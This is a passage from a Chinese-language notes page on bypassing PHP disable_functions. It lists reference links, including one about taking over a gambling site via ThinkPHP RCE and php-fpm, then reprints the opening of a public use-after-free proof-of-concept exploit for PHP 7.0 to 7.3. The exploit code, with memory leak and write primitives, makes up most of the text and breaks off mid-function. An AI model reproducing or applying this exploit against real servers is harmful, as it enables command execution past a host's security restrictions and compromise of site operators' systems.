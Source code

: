 参考：
[利用Thinkphp RCE以及php-fpm绕过disable function拿下菠菜](https://www.anquanke.com/post/id/193117)
[AntSword 绕过 PHP disable_functions Part.05](https://www.bilibili.com/video/av59393944)

#### GC UAF
>注意 PHP 版本需要满足：
7.0 - all versions to date
7.1 - all versions to date
7.2 - all versions to date
7.3 - all versions to date

绕过脚本如下：
```php
<?php

# PHP 7.0-7.3 disable_functions bypass PoC (*nix only)
#
# Bug: https://bugs.php.net/bug.php?id=72530
#
# This exploit should work on all PHP 7.0-7.3 versions
#
# Author: https://github.com/mm0r1

pwn("uname -a");

function pwn($cmd) {
    global $abc, $helper;

    function str2ptr(&$str, $p = 0, $s = 8) {
        $address = 0;
        for($j = $s-1; $j >= 0; $j--) {
            $address <<= 8;
            $address |= ord($str[$p+$j]);
        }
        return $address;
    }

    function ptr2str($ptr, $m = 8) {
        $out = "";
        for ($i=0; $i < $m; $i++) {
            $out .= chr($ptr & 0xff);
            $ptr >>= 8;
        }
        return $out;
    }

    function write(&$str, $p, $v, $n = 8) {
        $i = 0;
        for($i = 0; $i < $n; $i++) {
            $str[$p + $i] = chr($v & 0xff);
            $v >>= 8;
        }
    }

    function leak($addr, $p = 0, $s = 8) {
        global $abc, $helper;
        write($abc, 0x68, $addr + $p - 0x10);
        $leak = strlen($helper->a);
        if($s != 8) { $leak %= 2 << ($s * 8) - 1; }
        return $leak;
    }

    function parse_elf($base) {
        $e_type = leak($base, 0x10, 2);
```
